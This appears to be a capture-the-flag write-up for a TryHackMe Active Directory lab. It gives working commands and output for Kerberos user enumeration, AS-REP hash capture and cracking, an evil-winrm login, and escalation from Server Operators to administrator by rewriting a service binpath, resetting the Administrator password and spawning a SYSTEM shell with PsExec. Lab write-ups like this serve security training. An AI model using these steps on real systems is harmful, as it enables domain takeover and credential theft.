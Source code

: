 # Services

[TryHackMe room link](https://tryhackme.com/room/services)

# Informations about the room

> Meet the team!
Whenever you are ready, click on the Start Machine button to fire up the Virtual Machine. Please allow 3-5 minutes for the VM to fully start.

# Open ports

53/tcp    open  domain        syn-ack Simple DNS Plus

80/tcp    open  http          syn-ack Microsoft IIS httpd 10.0

88/tcp    open  kerberos-sec  syn-ack Microsoft Windows Kerberos (server time: 2023-04-21 19:39:20Z)

135/tcp   open  msrpc         syn-ack Microsoft Windows RPC

139/tcp   open  netbios-ssn   syn-ack Microsoft Windows netbios-ssn

389/tcp   open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: services.local0., Site: Default-First-Site-Name)

445/tcp   open  microsoft-ds? syn-ack

464/tcp   open  kpasswd5?     syn-ack

593/tcp   open  ncacn_http    syn-ack Microsoft Windows RPC over HTTP 1.0

636/tcp   open  tcpwrapped    syn-ack

3268/tcp  open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: services.local0., Site: Default-First-Site-Name)

3269/tcp  open  tcpwrapped    syn-ack

3389/tcp  open  ms-wbt-server syn-ack Microsoft Terminal Services

5985/tcp  open  http          syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)

7680/tcp  open  pando-pub?    syn-ack

9389/tcp  open  mc-nmf        syn-ack .NET Message Framing

47001/tcp open  http          syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)

49664/tcp open  msrpc         syn-ack Microsoft Windows RPC

49665/tcp open  msrpc         syn-ack Microsoft Windows RPC

49666/tcp open  msrpc         syn-ack Microsoft Windows RPC

49667/tcp open  msrpc         syn-ack Microsoft Windows RPC

49668/tcp open  msrpc         syn-ack Microsoft Windows RPC

49674/tcp open  msrpc         syn-ack Microsoft Windows RPC

49675/tcp open  ncacn_http    syn-ack Microsoft Windows RPC over HTTP 1.0

49676/tcp open  msrpc         syn-ack Microsoft Windows RPC

49678/tcp open  msrpc         syn-ack Microsoft Windows RPC

49679/tcp open  msrpc         syn-ack Microsoft Windows RPC

49696/tcp open  msrpc         syn-ack Microsoft Windows RPC

49706/tcp open  msrpc         syn-ack Microsoft Windows RPC

# Enumeration

This is a Windows machine that seems to be an AD Domain Controller, you need to add the domain to the `etc/hosts` file

In the `http://services.local/about.html` page we can see possible usernames

We can try to enumerate users with `kerbrute`

```console
❯ ./kerbrute_linux_amd64 userenum --dc 10.10.66.49 -d services.local users.txt -o valid_users.txt                                      
                                                                                                                                       
    __             __               __                                                                                                 
   / /_____  _____/ /_  _______  __/ /____                                                                                             
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                         

Version: v1.0.3 (9dad6e1) - 04/21/23 - Ronnie Flathers @ropnop

2023/04/21 23:35:55 >  Using KDC(s):
2023/04/21 23:35:55 >   10.10.66.49:88

2023/04/21 23:35:55 >  [+] VALID USERNAME:       j.doe@services.local
2023/04/21 23:35:55 >  [+] VALID USERNAME:       w.masters@services.local
2023/04/21 23:35:55 >  [+] VALID USERNAME:       j.larusso@services.local
2023/04/21 23:35:55 >  [+] VALID USERNAME:       j.rock@services.local
2023/04/21 23:35:55 >  Done! Tested 12 usernames (4 valid) in 0.157 seconds

```

With kerbrute i did not manage to get preauth hashes so i used this Metasploit module too `auxiliary/gather/kerberos_enumusers`: 

```console
[*] Using domain: SERVICES.LOCAL - 10.10.66.49:88       ...
[*] 10.10.66.49 - User: "joanne.doe" user not found
[+] 10.10.66.49 - User: "j.doe" is present
[!] No active DB -- Credential data will not be saved!
[*] 10.10.66.49 - User: "joanne.d" user not found
[*] 10.10.66.49 - User: "jack.rock" user not found
[+] 10.10.66.49 - User: "j.rock" does not require preauthentication. Hash: REDACTED
[*] 10.10.66.49 - User: "jack.r" user not found
[*] 10.10.66.49 - User: "will.masters" user not found
[+] 10.10.66.49 - User: "w.masters" is present
[*] 10.10.66.49 - User: "will.m" user not found
[*] 10.10.66.49 - User: "johnny.larusso" user not found
[+] 10.10.66.49 - User: "j.larusso" is present
[*] 10.10.66.49 - User: "johnny.l" user not found
[*] Auxiliary module execution completed
```

We can now crack the hash with Hashcat or John or with whatever you like:

```console
hashcat hash.txt /usr/share/wordlists/rockyou.txt
```
```console
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

To connect to the machine you can use RDP or `Evil-WinRM`

`evil-winrm -i 10.10.66.49 -u j.rock -p REDACTED`

# Privilege escalation

If we type `net user j.rock` we can see that we are in the Server Operators group

To get Administrator permissions we can change the binpath of certain services

To find those services type `services` in the WinRM shell
```console
*Evil-WinRM* PS C:\Users\j.rock\Documents> services                                                                                                          
                                                                                                                                                             
Path                                                                           Privileges Service                                                            
----                                                                           ---------- -------                                                            
C:\Windows\ADWS\Microsoft.ActiveDirectory.WebServices.exe                            True ADWS                                                               
"C:\Program Files\Amazon\SSM\amazon-ssm-agent.exe"                                   True AmazonSSMAgent                                                     
"C:\Program Files\Amazon\XenTools\LiteAgent.exe"                                     True AWSLiteAgent                                                       
"C:\Program Files\Amazon\cfn-bootstrap\winhup.exe"                                   True cfn-hup                                                            
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\SMSvcHost.exe                        True NetTcpPortSharing                                                  
C:\Windows\SysWow64\perfhost.exe                                                     True PerfHost                                                           
"C:\Program Files\Windows Defender Advanced Threat Protection\MsSense.exe"          False Sense                                                              
C:\Windows\servicing\TrustedInstaller.exe                                           False TrustedInstaller                                                   
"C:\ProgramData\Microsoft\Windows Defender\Platform\4.18.2302.7-0\NisSrv.exe"        True WdNisSvc                                                           
"C:\ProgramData\Microsoft\Windows Defender\Platform\4.18.2302.7-0\MsMpEng.exe"       True WinDefend                                                          
"C:\Program Files\Windows Media Player\wmpnetwk.exe"                                False WMPNetworkSvc 
```

We can use i think almost all of those services, i am gonna use the AD WebServices 

When you change the binpath you can specify a reverse shell that you uploaded or just add `j.rock` to the administrators group:
```console
*Evil-WinRM* PS C:\Users\j.rock\Documents> sc.exe config adws binpath="net localgroup administrators j.rock /add"
```

Now stop and restart the service
```
*Evil-WinRM* PS C:\Users\j.rock\Documents> sc.exe stop adws 

*Evil-WinRM* PS C:\Users\j.rock\Documents> sc.exe start adws 
```

Exit the shell and log in again

Now you should be in the administrators group

```console
*Evil-WinRM* PS C:\Users\j.rock\Documents> net user j.rock
User name                    j.rock
Full Name                    Jack Rock
Comment                      IT Support 
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            2/15/2023 5:42:32 AM
Password expires             Never
Password changeable          2/16/2023 5:42:32 AM
Password required            No
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   Never

Logon hours allowed          All

Local Group Memberships      *Administrators       *Remote Management Use
                             *Server Operators
Global Group memberships     *Domain Users
The command completed successfully.
```

But we still cannot cat the root flag

Since we are in the Admins group you can change the permissions of the `root.txt` and own the file: 
```
*Evil-WinRM* PS C:\Users\j.rock\Desktop> cacls root.txt /e /p j.rock:f
```

Or change the Administrator account password and then log in and cat the flag:
```
*Evil-WinRM* PS C:\Users\j.rock\Desktop> net user administrator password123$
```

Or the last thing that you can do is use [Psexec](https://learn.microsoft.com/en-us/sysinternals/downloads/psexec) in a RDP session to spawn a shell as SYSTEM 

```
TYPE THIS IN A ELEVATED COMMAND PROMPT OR POWERSHELL SESSION

.\PsExec.exe -i -s cmd.exe 
```
